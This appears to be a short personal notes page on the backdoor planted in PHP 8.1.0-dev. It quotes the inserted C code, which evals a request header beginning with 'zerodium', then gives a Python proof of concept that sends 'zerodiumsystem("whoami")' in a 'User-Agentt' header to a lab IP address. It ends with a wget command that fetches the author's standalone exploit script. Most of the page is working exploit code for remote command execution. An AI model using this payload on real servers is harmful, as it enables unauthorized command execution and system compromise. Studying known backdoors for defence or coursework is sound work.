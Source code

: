 # php 8.1.0-dev

* Remote Command Injection

**vuln code**

see [commits](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d) in git hub.


```php
convert_to_string(enc);
		if (strstr(Z_STRVAL_P(enc), "zerodium")) {
			zend_try {
				zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
```

More [Info](https://news-web.php.net/php.internals/113838)


**Poc in python**

```python

>>> # Example In python3

>>> from requests import get as _get

>>> res = _get("http://10.10.32.23/index.php", headers={
    "User-Agentt":'zerodiumsystem("whoami")'
})

>>> print(res.text.split("<!DOCTYPE html>")[0])

```


[Raw](https://raw.githubusercontent.com/Madhava-mng/my-cyber-diary/master/docs/pocs/exploit-php-8.1.0-dev.py) python script use curl or wget utils.

```sh
wget https://raw.githubusercontent.com/Madhava-mng/my-cyber-diary/master/docs/pocs/exploit-php-8.1.0-dev.py
```








* It just a home work for me.
